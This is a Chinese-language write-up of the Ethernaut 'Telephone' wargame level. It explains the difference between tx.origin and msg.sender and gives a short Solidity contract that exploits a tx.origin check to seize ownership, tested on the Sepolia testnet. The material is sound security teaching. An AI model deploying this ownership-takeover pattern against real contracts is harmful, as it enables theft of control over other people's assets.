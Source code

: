 # level4 telephone

## 1. 问题

将`Telephone`合约的owner设置成自己的地址

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {
    address public owner;

    constructor() {
        owner = msg.sender;
    }

    function changeOwner(address _owner) public {
        if (tx.origin != msg.sender) {
            owner = _owner;
        }
    }
}
```


## 2. 解法

合约有`changeOwner`函数，只要这个函数的调用方（sender）和交易发起方 (origin)不一致即可。我们可以通过部署一个 bridge 合约，通过这个bridge合约间接调用`changeOwner`即可做到。

对于嵌套调用的场景，比如`EOA(A) -> CONTRACT(B) -> CONTRACT(C)`, 在合约C中的函数看来，tx.origin=A, tx.sender=B。origin指向的是__最初发起交易__的EOA地址，sender指的是__直接调用本合约的上一个地址__。

1. 我们写一个合约bridge：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Telephone {
    function changeOwner(address _owner) external;
}

contract bridge {
    Telephone public telephone;

    constructor(address _telephone) {
        telephone = Telephone(_telephone);
    }
    
    function send() external {
        // 设置owner为EOA地址
        telephone.changeOwner(msg.sender);
    }
} 
```

2. 复制到remix，部署到测试链：[0xf97be735216a1dddb144ff56dcf25b7de9f94af21c7e5f2ef987c7557d317f35](https://sepolia.etherscan.io/tx/0xf97be735216a1dddb144ff56dcf25b7de9f94af21c7e5f2ef987c7557d317f35)

3. remix里面调用send接口：[0x77174fef6cca1ed5feb39a0ee7ea1ee836f4eca9612c029806adbe61872c6b0a](https://sepolia.etherscan.io/tx/0x77174fef6cca1ed5feb39a0ee7ea1ee836f4eca9612c029806adbe61872c6b0a)

4. 在ethernaut控制台看一下owner，发现已经变了：
```bash
await contract.owner()
```

5. 点击 `submit instance`， 提交通过！
